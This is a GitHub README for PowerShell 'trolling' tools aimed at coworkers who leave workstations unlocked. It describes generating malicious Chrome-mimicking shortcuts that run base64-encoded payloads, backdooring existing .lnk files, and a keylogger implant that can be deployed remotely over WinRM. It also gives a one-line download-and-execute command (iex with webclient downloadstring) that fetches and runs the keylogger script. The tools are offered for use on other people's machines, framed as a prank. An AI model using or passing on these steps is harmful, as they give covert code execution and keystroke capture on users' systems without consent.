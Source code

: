 # trollsrc
PoCs to share for trolling

These tools are intended to be used in a well-configured windows environment that allows for some user-level powershell execution.
Have a problem with admins leaving their workstations unlocked? Teach them a lesson by performing a benign backdoor on their primary web browser and wait :D

## .\make-shortcut.ps1
* Generates malicious shortcut links (chrome Icon mimicked by default)
* Takes powershell 1 liners as an argument; base64 encodes and executes payload when the icon is clicked

## .\bd-lnk.ps1 
* Takes a shortcut path as an argument; backdoors it with a troll message payload
* it will backdoor the link with a powershell troll msg and then redirect execution to the original application
* this will copy the source icon to $env:homepath\trollz\linkbackup\$foo.lnk for restoration
* .\bd-lnk.ps1 -sourcepath "$env:homepath\desktop\google chrome.lnk" 

## .\keyimp.ps1
* keyimp-ri.ps1 is intended for REMOTE implants, i.e. this can be run on a system via WinRM 
* keyimp.ps1 and simple-keyimp.ps1 are intended to be loaded from the target user session (unlocked workstation)
* loads up a keylogger that pops calc.exe anytime 'c' is pressed
* iex (new-object system.net.webclient).downloadstring("https://raw.githubusercontent.com/pooki3bear/trollsrc/master/keyimp.ps1")
